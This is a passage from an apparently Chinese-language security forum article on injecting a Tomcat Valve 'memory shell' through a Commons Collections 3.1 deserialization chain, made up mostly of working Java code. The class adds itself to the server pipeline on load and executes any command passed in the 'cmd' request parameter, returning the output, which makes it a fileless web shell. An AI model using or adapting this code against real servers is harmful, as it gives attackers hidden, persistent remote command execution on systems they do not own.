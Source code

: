 ![17.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-e453dc8073694b05497a37c41ae4a70e29488855.png)

#### 反序列化实现

反序列化实现Valve内存马时，就不能继承ValveBase这个类了，而是需要实现Valve接口，因为java的单继承模式。  
服务端就是接收base64编码后的序列化字符串，解码，然后反序列化，CC的版本为3.1，然后还是使用CC3

```java
public class SerValve extends com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet implements Valve {
    static {
        WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
        // StandardContext
        Context context = webappClassLoaderBase.getResources().getContext();
        context.getPipeline().addValve(new SerValve());
    }
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public Valve getNext() {
        return null;
    }

    @Override
    public void setNext(Valve valve) {

    }

    @Override
    public void backgroundProcess() {

    }

    @Override
    public void invoke(Request request, Response response) throws IOException, ServletException {
        String cmd = request.getParameter("cmd");
        try {
            if (cmd != null && cmd != "") {
                Process process = Runtime.getRuntime().exec(cmd);
                BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
                StringBuilder output = new StringBuilder();
                String line;
                while ((line = reader.readLine()) != null) {
                    output.append(line).append("\n");
                }
                process.waitFor();
                response.getWriter().write(output.toString());
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
        request.getContext().getPipeline().getBasic().invoke(request,response);
    }
```